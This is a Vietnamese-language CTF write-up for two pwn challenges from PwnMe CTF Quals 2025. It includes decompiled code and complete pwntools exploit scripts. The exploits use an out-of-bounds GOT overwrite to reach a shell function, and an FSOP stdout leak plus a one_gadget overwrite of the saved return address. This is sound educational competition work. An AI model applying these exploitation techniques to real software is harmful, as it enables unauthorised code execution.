 ```yaml
--- 
title: PwnMe CTF Quals 2025
date: 2025-02-16 00:00:00 +0800
categories: [writeup]
tags: [pwn,writeup]
author: "kuvee"
layout: post
---
```


## got

checksec: 

```cs
ploi@PhuocLoiiiii:~/pwn/PwnMeCTF/got/got$ checksec got
[*] '/home/ploi/pwn/PwnMeCTF/got/got/got'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

- main : chương trình rất đơn giản , đầu tiên ta sẽ được nhập 1 idx , tiếp sau đó là nhập dữ liệu vào ```PNJS[idx]```  và nó nằm tại ```0x0000000000404080``` 

```cs
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int idx; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v5; // [rsp+8h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  idx = 0;
  puts("Hey ! I've never seen Game of Thrones and i think i misspelled a name, can you help me ?");
  puts("Which name is misspelled ?\n1. John\n2. Daenarys\n3. Bran\n4. Arya");
  fwrite("> ", 1uLL, 2uLL, stdout);
  __isoc99_scanf("%d", &idx);
  if ( idx > 4 )
  {
    puts("Huuuhhh, i do not know that many people yet...");
    _exit(0);
  }
  puts("Oh really ? What's the correct spelling ?");
  fwrite("> ", 1uLL, 2uLL, stdout);
  read(0, &PNJs[idx], 0x20uLL);
  puts("Thanks for the help, next time i'll give you a shell, i already prepared it :)");
  return 0;
}
```

- rõ ràng đây là 1 bài xảy ra bug ```oob``` , ta có thể ghi idx tiến đến got và ghi vào thứ gì đó để lấy shell và may mắn là có 1 hàm win

```cs
void __cdecl shell()
{
  system("/bin/sh");
}
```

exp: 

```cs
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./got',checksec=False)

#p = process()
p = remote('got-4d27ff88d1920941.deploy.phreaks.fr',443,ssl=True)

p.sendline(b'-4')
input()
p.send(p64(0x401036) + p64(exe.sym.shell))

p.interactive()
```

## einstein

checksec: full giáp

```cs
ploi@PhuocLoiiiii:~/pwn/PwnMeCTF/einstein/einstein$ checksec einstein
[*] '/home/ploi/pwn/PwnMeCTF/einstein/einstein/einstein'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

- handle: đây là hàm chứa dữ liệu chính cần khai thác của bài , đập vào mắt đầu tiên có lẽ là ta có 2 lệnh scanf -> ta có thể ghi tùy ý 2 lần 


```cs
int __cdecl handle()
{
  int offset; // [rsp+8h] [rbp-38h] BYREF
  unsigned int size; // [rsp+Ch] [rbp-34h] BYREF
  unsigned __int64 *wher; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int64 wat; // [rsp+18h] [rbp-28h] BYREF
  unsigned __int64 *wher2; // [rsp+20h] [rbp-20h] BYREF
  unsigned __int64 wat2; // [rsp+28h] [rbp-18h] BYREF
  void *allocated; // [rsp+30h] [rbp-10h]
  unsigned __int64 v8; // [rsp+38h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  puts("\nHow long is your story ?");
  __isoc99_scanf("%u", &size);
  if ( size <= 0x27 )
  {
    puts("Well... It seems you don't really want to talk to me that much, cya.");
    _exit(1337);
  }
  allocated = malloc(size);
  puts("What's the distortion of time and space ?");
  __isoc99_scanf("%u", &offset);
  puts(
    "Well your story is quite long, time may be distored, but it is a priceless ressource, i'll give you a few words only"
    ", use them wisely.");
  read(0, (char *)allocated + offset, 0x22uLL);
  puts("Everything is relative... Or is it ???");
  __isoc99_scanf("%llu %llu", &wher, &wat);
  __isoc99_scanf("%llu %llu", &wher2, &wat2);
  *wher = wat;
  *wher2 = wat2;
  return 0;
}
```

- và bài này hốc búa ở chỗ là ta không biết bất cứ địa chỉ nào -> sẽ không thể ghi được gì , tuy nhiên để ý lại đoạn ở trên , ta được nhập 1 size và malloc(size) 
- tiếp theo ta được input vào 0x22 vào chunk đó , ở đây ta cần biết khi ta nhập 1 size lớn -> nó sẽ dùng mmap để tạo 1 vùng nhớ cho yêu cầu của malloc() , và vùng nhớ đó nằm dưới ngay libc

- ở đây mình nhập 1 size rất lớn

![here](/assets/images/PWNme2025/1.png)

- và nó nằm ngay dưới libc

![here](/assets/images/PWNme2025/2.png)

- như ta đã nói thì trước hết ta cần biết địa chỉ libc , ở đây ta cần tấn công ```fsop``` , chi tiết thì ta có thể xem ở [here](https://github.com/nobodyisnobody/docs/tree/main/using.stdout.as.a.read.primitive/)  , ở đây mình chọn overwrite ```IO_write_PTR``` bằng byte ```\xff```  hoặc là ta có thể overwrite như link trên cũng được , và may mắn là ta có libc lẫn stack_address  
- lúc đầu mình không leak được stack_address vì phiên bản libc bài cho không giống sever , sau khi build docker và lấy libc lại thì mới leak được stack :)))

- cuối cũng đơn giản là overwrite ```saved_rip``` thành one_gadget thôi , ta có 2 lần ghi nên ta có thể làm cho nó thõa mãn điều kiện của one_gadget

- ở đây mình chọn cái này : 

rax NULL sẵn và ta chỉ cần setup cho ```rbp-0x78``` thôi là được

```cs
0xeb66b execve("/bin/sh", rbp-0x50, [rbp-0x78])
constraints:
  address rbp-0x50 is writable
  rax == NULL || {"/bin/sh", rax, NULL} is a valid argv
  [[rbp-0x78]] == NULL || [rbp-0x78] == NULL || [rbp-0x78] is a valid envp
```

exp: 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./einstein_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

p = process()

p.sendlineafter(b'How long is your story ?\n', str(0x50000).encode())


p.sendlineafter(b"What's the distortion of time and space ?\n", str(0x253790+0x28).encode())


input()
p.sendafter(b'.\n', b'\xff')

p.recv(5)
libc_leak = u64(p.recv(6).ljust(8,b'\x00'))
log.info(f'libc leak: {hex(libc_leak)}')
p.recv(0x92)
leak_stack = u64(p.recv(6).ljust(8,b'\x00'))
log.info(f'leak_stack: {hex(leak_stack)}')
saved_rip = leak_stack - 0x120
log.info(f'saved_rip: {hex(saved_rip)}')
libc.address = libc_leak - 0x2008f0
log.info(f'libc: {hex(libc.address)}')
rbp = saved_rip + 8
og = [0xeb66b,0xeb60e,0x54f53,0x54f4c]

p.sendlineafter(b'Everything is relative... Or is it ???',str(int(saved_rip)) + ' ' + str(int(libc.address+og[0])))
input()
p.sendline(str(int(rbp-0x78)) + ' ' + str(int(0)))

p.interactive()
```